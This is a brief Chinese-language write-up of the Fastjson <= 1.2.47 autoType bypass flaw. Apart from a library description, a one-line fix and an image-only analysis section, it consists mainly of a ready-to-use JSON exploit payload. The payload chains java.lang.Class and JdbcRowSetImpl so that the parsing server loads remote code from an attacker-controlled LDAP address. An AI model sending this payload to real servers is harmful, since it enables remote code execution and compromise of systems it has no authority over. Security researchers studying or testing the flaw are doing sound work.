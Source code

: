 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.47

攻击者仍然可以通过发送精心制造的请求包，使用mappings绕过autoType选项，在使用Fastjson的服务器上远程执行代码。  
该问题影响Fastjson 1.2.47以及之前的版本，而且无需开启Autotype选项。

### 二 漏洞利用
```
{
    "name":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "x":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://ip:9999/Exploit",
        "autoCommit":true
    }
 
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson

### 四 漏洞分析
![img.png](img.png)

> 参考链接
> https://www.cnblogs.com/huim/p/16566911.html
